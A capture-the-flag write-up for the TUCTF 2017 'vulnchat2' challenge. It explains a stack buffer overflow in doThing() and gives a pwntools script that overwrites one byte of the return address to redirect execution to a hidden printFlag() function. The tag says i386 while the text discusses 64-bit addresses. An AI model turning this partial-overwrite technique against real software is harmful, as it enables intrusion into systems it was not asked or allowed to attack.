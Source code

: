 ```yaml
---
layout: post
title: Tuctf 2017 vulnchat2
date: 2025-07-26 01:22:03 +0300
categories: Nightmare-series partial-overwrite
tags: nightmare buffer-overflow i386 partial-overwrite 
---
```


## Information 
- category: pwn

## Description 
> None

## Write-up

### Binary Analysis 
From reverse engineering the binary, we identified a function named `doThing()` that contains a call to the `read()` function. It reads **45 bytes** from standard input into a local stack buffer:
```plaintext
ssize_t n = read(0, buf, 45);
```
Additionally, we discovered a **hidden function** called `printFlag()` which is not directly called in normal execution but can be reached through exploitation.

### Vulnerability 
The buffer that `read()` writes into is located on the stack. Since the function doesn't enforce bounds checking beyond the 45-byte `read()`, and there’s a return address following the buffer, we can exploit this to perform a **partial overwrite** of the saved return address.


### Exploitation Strategy 
- **Goal**: Redirect execution to `printFlag()`. 
- **Method**: Partial overwrite of the least significant byte (LSB) of the return address to point into `printFlag`. 
- **Why Partial?** The input is limited to 45 bytes, which is not enough to fully overwrite the return address. But because ASLR doesn't randomize all bits in 64-bit addresses, and the binary has a predictable layout (probably PIE disabled), we can **overwrite just the last byte** of the return address to land inside `printFlag`.

### Offset Discovery 
Using `pwndbg` in GDB, we examined the stack layout at the point of the `read()` call in `doThing()`:”
```bash
pwndbg> i f
Stack level 0, frame at 0x7fffffffdf40:
 rip = 0x401310 in doThing; saved rip = 0x401369
...
pwndbg> dist $rax 0x7fffffffdf38
0x7fffffffdef0->0x7fffffffdf38 is 0x2b bytes (43 in decimal)
```
This confirms the **offset to the return address is 43 bytes**.


### Final Exploit Concept 
To exploit the program: 
- Send **43 bytes** of padding to reach the return address. 
- Follow it with **1 byte** that matches the low byte of `printFlag()` address ( `0x72` if its address ends in `0x...72`). 
- This causes the return address to be partially overwritten to point to `printFlag()`. This partial overwrite is enough to gain code execution and leak the flag.


## Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln-chat2.0_patched")

context.binary = exe


def conn():

    r = process([exe.path])
    if args.DEBUG:
        gdb.attach(r)

    return r

def main():
    r = conn()

    fixed_low = b"\x72"
    offset_ret = 43

    payload = b"A"*offset_ret 
    payload+= fixed_low

    r.sendline(b"AAAA")
    sleep(4)
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

## Flag
> Flag:``` flag{g0ttem_b0yz}```


















